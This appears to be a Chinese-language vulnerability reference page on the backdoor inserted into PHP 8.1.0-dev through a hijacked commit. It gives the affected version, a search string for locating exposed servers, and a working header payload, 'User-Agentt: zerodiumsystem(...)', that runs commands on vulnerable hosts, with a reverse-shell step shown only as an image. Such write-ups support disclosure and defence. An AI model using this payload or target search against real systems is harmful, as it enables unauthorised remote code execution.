  # PHP zerodium后门漏洞

## 漏洞描述

PHP开发工程师Jake Birchall在对其中一个恶意COMMIT的分析过程中发现，在代码中注入的后门是来自一个PHP代码被劫持的网站上，并且采用了远程代码执行的操作，并且攻击者盗用了PHP开发人员的名义来提交此COMMIT。

目前为止PHP官方并未就该事件进行更多披露，表示此次服务器被黑的具体细节仍在调查当中。由于此事件的影响，PHP的官方代码库已经被维护人员迁移至GitHub平台，之后的相关代码更新、修改将会都在GitHub上进行。

## 漏洞影响

<a-checkbox checked>PHP 8.1.0-dev</a-checkbox></br>

## 网络测绘

<a-checkbox checked>"PHP/8.1.0-dev"</a-checkbox></br>

## 漏洞复现

后门为添加请求头(是 User-Agentt 不是 User-Agent)

```plain
User-Agentt: zerodiumsystem('id');
```



![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10-20220313092832416.png)



反弹shell

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10-7134912.png)